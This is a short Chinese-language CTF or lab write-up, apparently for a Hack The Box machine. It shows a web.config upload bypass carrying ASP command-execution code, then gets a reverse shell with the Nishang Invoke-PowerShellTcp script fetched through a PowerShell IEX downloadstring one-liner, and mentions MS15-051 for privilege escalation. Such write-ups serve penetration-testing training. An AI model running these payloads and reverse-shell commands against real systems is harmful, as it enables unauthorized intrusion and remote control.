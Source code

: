 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zdiaia36fGWEibD5hoVtgyehsUonLPyNwsu19Oq5Vv6ckG7fF36Tziag8oTA/640?wx_fmt=png)

copy 到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdKNgG13LP6VJL2aN35ADGmopmtJakrG4yQib5S0icRDIicQ1yeT7qhyozA/640?wx_fmt=png)

经过上传后，执行回复 3... 响应点是正确的，利用即可...GO

这里 kali 自带的简单的 web.config 绕过文本内容...

继续...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdnTldMcXzniaeNlDjMSseFNbJZmLnMa7sibCNevVJO9ZZDk1IpAL7qNlA/640?wx_fmt=png)

```
php
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping 10.10.14.16")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

利用简单的 web.config 注入代码，利用 icmp 反包测试成功...

  

  

二、提权

  

  

利用 ps1 反向 shell 提权即可....（谷歌很多 ps1 的 shell 脚本）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdTibIpuXnwlZEFBL8ck9ToTzwuKQH64XOT8UGibGlkb00Apwvh1c09SVQ/640?wx_fmt=png)

```
curl -sk https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 > dayu.ps1
```

```
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 6666' >> dayu.ps1  ---写入反向外壳
cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.16/dayu.ps1')  --修改web.config
```

成功通过 80 访问上传反向 shell... 获得低权用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7Zd57N6svusaKtuoO2z4SRBZF2app114avbqdBhdzFoScHjS86fiawneuA/640?wx_fmt=png)

可以看出版本，以及这是个未打补丁新的系统....

前面也遇到过很多，应该很多漏洞，我这里利用了 ms15-051...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEI3jE1xmiaticfvicgr6h7ZdtjMNEPvoYNwBzBS8MuCCGRsn8lfj7cMWy8Ia58wr4h5dYjBHMibfNsg/640?wx_fmt=png)
